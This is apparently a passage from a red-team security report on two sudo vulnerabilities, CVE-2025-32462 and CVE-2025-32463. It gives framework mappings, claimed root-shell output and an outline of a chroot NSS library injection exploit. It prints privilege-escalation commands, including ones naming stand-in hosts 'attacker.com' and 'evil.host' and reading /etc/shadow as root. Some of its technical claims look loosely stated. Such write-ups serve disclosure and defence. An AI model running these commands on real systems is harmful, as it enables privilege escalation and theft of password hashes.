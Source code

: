 **Vulnerable Code Pattern**:
```c
// Missing validation allowed remote host specification for command execution
// Fixed by adding MODE_LIST|MODE_CHECK validation
```

**Security Framework Analysis**:
- **CWE-288**: Authentication Bypass Using an Alternate Path or Channel
- **CAPEC-1**: Accessing Functionality Not Properly Constrained by ACLs
- **ATT&CK T1548.003**: Sudo and Sudo Caching

#### Exploitation Results
Our Red Team successfully achieved complete privilege escalation:
```bash
sudo -h remote_host id                    # Returns: uid=0(root) gid=0(root) groups=0(root)
sudo -h attacker.com whoami              # Returns: root
sudo --host=evil.host cat /etc/shadow    # Reads sensitive files as root
```

**Proof of Exploitation**:
```
CVE-2025-32462 EXPLOITED SUCCESSFULLY
Exploited by: root
Timestamp: Sat Jul 26 16:26:25 UTC 2025
ROOT ACCESS: uid=0(root) gid=0(root) groups=0(root)
```

### CVE-2025-32463: Chroot NSS Library Injection
**CVSS Score**: 8.8 (High)  
**Status**: EXPLOIT DEVELOPED - BLOCKED BY POLICY ❌  
**Impact**: Full root compromise through library injection  

#### Technical Details
**Location**: Multiple files - major architectural vulnerability  
**Root Cause**: The pivot_root mechanism performed passwd/group lookups AFTER changing root directory, allowing attackers to control NSS configuration and load arbitrary libraries.

**Attack Vector**: Crafted nsswitch.conf files to load malicious shared libraries during NSS operations in chroot environment.

**Security Framework Analysis**:
- **CWE-829**: Inclusion of Functionality from Untrusted Control Sphere
- **CAPEC-251**: Local Code Inclusion
- **ATT&CK T1574.006**: Dynamic Linker Hijacking

#### Exploitation Status
Our team developed a complete working exploit that was blocked only by sudoers policy restrictions:
- ✅ Malicious NSS library compilation successful
- ✅ Fake chroot environment creation successful
- ✅ Complete directory structure mimicking real system
- ❌ Sudoers policy blocks -R option execution

**Note**: This exploit would achieve full root compromise in environments where sudoers allows -R option usage.

---